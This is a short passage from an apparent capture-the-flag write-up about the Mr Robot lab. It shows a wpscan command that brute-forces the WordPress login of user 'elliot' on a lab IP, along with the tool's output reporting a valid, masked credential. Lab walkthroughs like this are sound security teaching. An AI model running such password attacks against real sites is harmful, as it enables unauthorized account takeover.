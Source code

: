 <img src="/images/mrrobot/wplogin1.png" />

All that is left is to brute force the password. I use the tool [wpscan](https://github.com/wpscanteam/wpscan) for this.

{%highlight bash%}
wpscan -U elliot -P unique --url http://10.10.123.255 --password-attack wp-login

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.6
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.123.255/ [10.10.123.255]
[+] Started: Thu Sep  3 18:11:26 2020
--snip--
[!] Valid Combinations Found:
 | Username: elliot, Password: *********
 --snip--
{%endhighlight%}
